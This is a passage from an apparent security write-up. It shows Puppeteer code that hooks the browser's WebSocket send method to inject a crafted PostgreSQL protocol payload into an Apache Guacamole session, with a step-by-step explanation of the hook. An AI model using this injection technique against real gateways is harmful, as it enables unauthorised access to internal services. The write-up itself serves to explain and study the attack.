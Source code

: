 ```javascript
    // page.on('console', consoleObj => console.log(consoleObj))


    await page.evaluate(() => {
        // Remember to update the payload here
        var payload = "\x00\x00\x00\x08\x04\xd2\x16\x2f\x00\x00\x00\x54\x00\x03\x00\x00\x75\x73\x65\x72\x00\x70\x6f\x73\x74\x67\x72\x65\x73\x00\x64\x61\x74\x61\x62\x61\x73\x65\x00\x70\x6f\x73\x74\x67\x72\x65\x73\x00\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x5f\x6e\x61\x6d\x65\x00\x70\x73\x71\x6c\x00\x63\x6c\x69\x65\x6e\x74\x5f\x65\x6e\x63\x6f\x64\x69\x6e\x67\x00\x55\x54\x46\x38\x00\x00\x51\x00\x00\x00\x16\x53\x45\x4c\x45\x43\x54\x20\x76\x65\x72\x73\x69\x6f\x6e\x28\x29\x3b\x00"
        var must_send = true
        var base64 = btoa(payload)
        var final_payload = "9.clipboard,1.0,10.text/plain;4.blob,1.0," + base64.length + "." + base64 + ";3.end,1.0;3.key,5.65507,1.1;"
        const originalSend = WebSocket.prototype.send
        WebSocket.prototype.send = function(...args) {
            if (must_send) {
                console.log(final_payload);
                originalSend.call(this, ...[final_payload])
                must_send = false
            }
            console.log(args)
            return originalSend.call(this, ...args)
        }
    })

    // Keep it open, ease our debug process :)
    // await browser.close()
})();
```

It's mostly clicks and keystrokes, but there is one really interesting part I want to detail. I first wanted to get a handle on the websocket, and send things on the way, but I could find no easy way to just list currently opened websockets! So a cool workaround is to "attack ourselves" with a self prototype pollution. 

Long story short, we're hooking the WebSocket's send method so we can inject arbitrary bytes to be sent at runtime. 

1. We save the original send method
1. We overwrite the send function of the main WebSocket object, every newly created websocket will inherit from this method
1. We send our arbitrary bytes, here stored in `final_payload`
1. We send the bytes that were supposed to be sent by the initial send call, that way guacd remains happy (and alive)

The payload sent is the PostgreSQL payload we tested earlier. 

